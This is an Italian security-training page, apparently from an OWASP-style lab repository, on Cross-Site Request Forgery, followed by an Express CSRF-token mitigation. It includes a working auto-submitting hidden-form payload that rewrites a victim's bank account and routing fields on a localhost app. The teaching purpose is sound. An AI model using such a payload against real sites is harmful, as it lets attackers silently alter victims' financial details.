



# A8 - Cross-Site Request Forgery (CSRF) 
Per sfruttare questa vulnerabilità un attaccante dovrebbe costruire un sito malevolo e inviarlo alla vittima. Quando la vittima clicca sul link, la pagina html viene caricata e il form viene sottomesso aggiornando le informazioni del profilo della vittima.
```html
<html lang="en">
    <head></head>
    <body>
        <iframe name="hidden_iframe" style="display:none;"></iframe>
        <script>
            window.onload = function(){
            // Create a <form> element
            var p = document.createElement("form");
            p.action = "http://localhost:4000/profile";
            p.method = "post";
            p.target="hidden_iframe";
            // The fields are hidden, the victim will not see them.
            var fields;
            fields += "<input type='hidden' name='bankAcc' value='9999999'>";
            fields += "<input type='hidden' name='bankRouting' value='88888888#'>";
            p.innerHTML = fields;
            // Append the form to the current page
            document.body.appendChild(p);
            // Submit the form
            p.submit();
            }
        </script>
    </body>
</html> 
```


#### 🛡️ Mitigation
Nel file `server.js` si può includere il middleware express CSRF dopo aver inzializzato la sessione
```js
 //Enable Express csrf protection
    app.use(express.csrf());

    app.use(function(req, res, next) { 
        res.locals.csrftoken = req.csrfToken(); 
        next(); 
    }); 
```
💡 **Spiegazione**:
- ✅ questo middleware controlla che ogni richiesta POST/PUT/DELETE contenga un token CSRF valido, legato alla sessione dell’utente.
- ✅ inoltre genera un token CSRF valido per la sessione corrente, usando `req.csrfToken()` e lo salva in `res.locals.csrftoken`, così può essere facilmente usato nel template HTML:

```html
<input type="hidden" name="_csrf" value="{{ csrftoken }}">
```



---




<!--[🔙](01-as-is.md#a8---cross-site-request-forgery-csrf)-->
[🔙](../README.md#a8---cross-site-request-forgery-csrf)